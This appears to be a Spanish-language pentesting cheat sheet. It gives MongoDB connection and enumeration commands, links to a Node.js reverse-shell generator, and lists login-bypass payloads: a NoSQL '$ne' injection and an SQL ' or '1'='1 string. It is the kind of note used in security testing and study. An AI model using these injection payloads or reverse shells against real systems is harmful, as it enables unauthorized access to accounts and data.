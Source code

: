 ## Mongo

Para conectarte a una base de datos mongo(y tambien con la de mysql) sin necesitad de usuario y password

```
mongo mongodb://localhost/blog

## Si tienes credenciales

mongo mongodb://usuario:contraseña@host:puerto/nombreDeLaBaseDeDatos

```

Para ver las bases de datos y tablas usa:

```
show dbs

use nombreDeLaBaseDeDatos

show collections

db.nombre_tabla.find()

```

## NodeShell

Para crear reverse shell que funcione

> https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

## NOSQL LOGINS FORMS

En los logins siempre prueba tanto inyecciones SQL como NO SQL

```
#NOSQL

{

  "user": {"$ne": "foo"},

  "password": {"$ne": "bar"}

}
```

> https://book.hacktricks.xyz/pentesting-web/nosql-injection

SQL 

```
' or '1'='1-- -

ETC
```
